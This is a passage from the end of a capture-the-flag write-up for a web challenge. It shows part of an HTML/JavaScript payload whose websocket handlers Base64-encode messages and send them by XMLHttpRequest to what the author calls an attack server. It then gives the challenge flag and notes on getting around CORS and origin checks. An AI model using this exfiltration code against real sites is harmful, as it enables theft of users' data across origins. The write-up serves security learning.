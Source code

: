 ```html
          xx.open("GET", "http://localhost.domain.tld:7070/quotes?e=" + encodeURIComponent(btoa(evt.message)), false);
          xx.send();
        }
        ws.onclose = function(evt) {
          var xx = new XMLHttpRequest();
          xx.open("GET", "http://localhost.domain.tld:7070/quotes?c=" + encodeURIComponent(btoa(evt.code)), false);
          xx.send();
        }
      }, 200);
    </script>
  </body>
</html>
```
After getting the responses back in our attack server, we simply need to Base64 decode it to obtain the flag.

**Flag:** ```grey{qu0735_fr0m_7h3_w153_15_w153_qu0735_7a4c6ec974b6d8b0}```

## Notes/Takeaway
- This challenge was relatively simple once all the various restrictions such as CORS and XSS are bypassed, though much of the time was spent on getting the `/auth` endpoint to successfully load/obtain the cookie to be used for the websocket connection.
- Alternatively the request could have been made through Websocket as well since the origin checks were not applicable for that.
